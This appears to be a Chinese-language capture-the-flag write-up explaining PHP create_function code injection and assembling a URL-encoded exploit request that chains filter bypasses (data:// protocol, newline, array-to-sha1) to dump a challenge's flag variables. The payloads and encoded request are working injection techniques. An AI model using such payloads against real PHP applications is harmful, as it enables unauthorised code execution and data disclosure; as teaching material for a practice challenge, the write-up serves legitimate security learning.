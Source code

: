 文章：https://www.cnblogs.com/-chenxs/p/11459374.html

`create_function($arg1,$arg2)`会创造一个匿名函数，

函数的参数部分由 `$arg1`指定

函数体由 `$arg2` 指定

例如：

```php
<?php
create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
?>
```

会创建以下匿名参数：

```php
function lambda($a,$b){
	return "ln($a) + ln($b) = " . log($a * $b);
}
```

我们可以在 $arg2 进行改动，实现代码注入

如果`$arg2 = }phpinfo();//`   可以执行`phpinfo()`函数

原因：首先 `}` 将匿名函数的大括号`}`闭合了，然后 `//` 将后面的大括号`}`给注释掉了

所以，这之间就可以写相应的代码了

由于这里过滤了很多东西，但是恰好引入了 `flag.php`，其中一定存在相应的flag变量

所以我们可以使用 `get_defined_vars()`函数：返回所有已定义变量组成的数组

然后使用 `var_dump()`进行输出

这样就可以知道有关flag的变量名了

```php
arg=}var_dump(get_defined_vars());//
```



综上：

我们需要将get参数进行url编码，然后将具有字母参数值的所有get参数传入一个同名的post参数(注意需要将请求方式改为post方式)，debu参数在末尾加上%0a绕过，file参数使用data协议绕过，sha1()使用数组绕过

get

```php
/1nD3x.php?f%69%6ce=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&d%65%62u=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&sh%61%6e%61[]=1&pas%73%77d[]=2&f%6c%61%67%5b%63%6fde]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&fl%61%67%5b%61%72g]=%7d%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f
```

post

```php
file=1&debu=1
```
